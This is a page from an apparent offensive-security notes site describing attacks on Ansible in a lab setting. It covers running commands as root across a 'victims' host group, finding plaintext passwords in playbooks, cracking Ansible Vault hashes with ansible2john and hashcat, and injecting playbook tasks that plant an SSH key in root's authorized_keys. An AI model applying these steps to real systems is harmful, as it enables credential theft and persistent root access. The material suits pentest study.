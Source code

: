 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
<style>
  div.highlighter-rouge {
    position: relative;
    font-family: 'Source Code Pro', monospace;
    font-size: 14px;
  }

  div.highlighter-rouge button {
    display: inline-block;
    cursor: pointer;
    background-color: #252525;
    border: 2px solid #252525;
    border-radius: 8px;
    color: var(--text-color);
    line-height: 1.5px;
    padding: 10px 10px;
    text-align:center;
    transition-duration: .10s;
    transition-property: all;
    position: absolute;
    top: 7px;;
    left: 953px;
  }
</style>

<!--     
font-weight: 300;
transition-timing-function: cubic-bezier(.4,0,.2,1);
color: #fff;
outline: 0;
background: #000;
border-radius: 8px;
border-color: #252525;
-->

<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = '<i style="pointer-events:none" class="fa fa-clone" aria-hidden="true"></i>';
      //copyCodeButton.style.color = '#DBDBDB';
      //copyCodeButton.style.borderColor = '#252525';
      //copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      
      
      //mouseover
      copyCodeButton.addEventListener('mouseover', () => {
      copyCodeButton.style.borderColor = 'white';
      copyCodeButton.style.color = 'white';
      });

      //mouseout
      copyCodeButton.addEventListener('mouseout', () => {
      copyCodeButton.style.borderColor = '#252525';
      copyCodeButton.style.color = '#DBDBDB';
      });
      
      //onclick
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = '<i style="pointer-events:none" class="fa fa-check" aria-hidden="true"></i>';
        copyCodeButton.style.borderColor = 'red';
        copyCodeButton.style.color = '#DBDBDB';
        //copyCodeButton.classList.add("btn-success");
        //copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = '<i style="pointer-events:none" class="fa fa-clone" aria-hidden="true"></i>';
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.style.backgroundColor = '#252525';
          copyCodeButton.style.borderColor = '#252525';
          copyCodeButton.style.color = '#DBDBDB';
          copyCodeButton.classList.add("btn-outline-primary");
        }, 500);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
